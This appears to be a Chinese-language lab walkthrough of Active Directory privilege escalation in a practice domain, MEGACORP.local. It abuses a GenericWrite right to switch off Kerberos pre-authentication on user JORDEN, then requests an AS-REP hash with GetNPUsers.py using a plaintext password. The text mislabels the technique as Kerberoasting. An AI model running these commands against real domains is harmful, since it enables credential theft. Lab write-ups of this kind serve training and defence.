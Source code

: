 以用户SBAUER为起点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPHr8R9BmC1EscgziajgvxvnnPeYFjI212N0KBMNXKiasubicgYwicziak1GQ/640?wx_fmt=png&from=appmsg "")  
  
找到该用户的最高权限目标  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPw7kEtoH62Sw4d6L4pgv1tRiclIBdFebZn5xlX2oHHNycOwgjLSvibL6A/640?wx_fmt=png&from=appmsg "")  
  
SBAUER对JORDEN具有GenericWrite权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP0xeNbr1XzhdMiaLUMoibCTJOgyCNJnwOhMVicS3zIwTfKxhiacHZKicYn2w/640?wx_fmt=png&from=appmsg "")  
  
所以可以利用当前用户对其进行kerberosating攻击。  
  
Powershell获取用户属性  

```
Get-ADUser -Filter 'Name -like &#34;Jor*&#34;'

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPObzR0494ZqynqOoPMp2ddEchGMttA0noeszzqTj1BibFyemVJkX2FKw/640?wx_fmt=png&from=appmsg "")  
  
获取某个用户的SPN服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP4UqMR1WiaNVeFyct5wibjKibYZgHXydZPqiaXmbRsQcDpdNPLq77ibm1oHg/640?wx_fmt=png&from=appmsg "")  
  
将jorden用户的属性设置为不需要预认证。  

```
Set-ADAccountControl -Identity jorden -doesnotrequirepreauth $true

```


```
python3 GetNPUsers.py MEGACORP.local/sbauer:&#34;D3veL0pM3nT\!&#34; -dc-ip 10.129.1.125 -request

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPes5CWkje5KzbwVeyxlAM1X3YtLUhwYYibM24bL6oJBkMr5LB6oCfSgA/640?wx_fmt=png&from=appmsg "")  
  
  
